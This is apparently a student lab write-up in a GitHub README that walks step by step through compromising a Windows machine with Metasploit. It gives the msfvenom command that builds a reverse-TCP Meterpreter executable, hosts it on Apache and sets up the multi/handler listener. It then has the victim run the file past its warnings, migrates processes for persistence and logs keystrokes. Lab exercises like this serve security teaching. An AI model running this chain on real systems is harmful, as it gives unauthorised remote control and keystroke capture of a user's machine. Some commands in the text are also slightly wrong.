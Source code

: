 ## Compromising windows using Metasploit
## Metasploit
Compromising windows using Metasploit

## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
## Step 1:
Install kali linux either in partition or virtual box or in live mode

## Step 2:
Investigate on the various categories of tools as follows:

## Step 3:
Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig.

## OUTPUT:
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/55e25116-ef60-4ecd-a949-2b08d7a422d8)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

## OUTPUT:
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/6c367e44-5e08-4164-a5ca-e7ac99ee8634)
copy the fun.exe into the apache /var/www/html folder 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8f1d2b83-04b2-4e5f-9135-c0b66e3fed8a)
Start apache server sudo systemctl apache2 start 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/1d0594e2-bcce-47ef-a6f0-0454e5788022)
Check the status of apache2
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8da36129-ca87-4760-af20-fe77b1476537)
Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/b607223f-3e81-4e48-a6c1-16a2e76065c3)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8f037c68-1cdd-4164-948c-998161a0355e)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/9358782f-39d2-4a76-8238-2e4a17f42e64)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted. 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/5e3617f3-97c1-42ff-b26b-b751bbd34bb8)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/f5af3b8d-ab12-4345-83d8-98094fb93b22)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/ef78d1de-015f-4c42-a3c4-fab748720960)
RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.
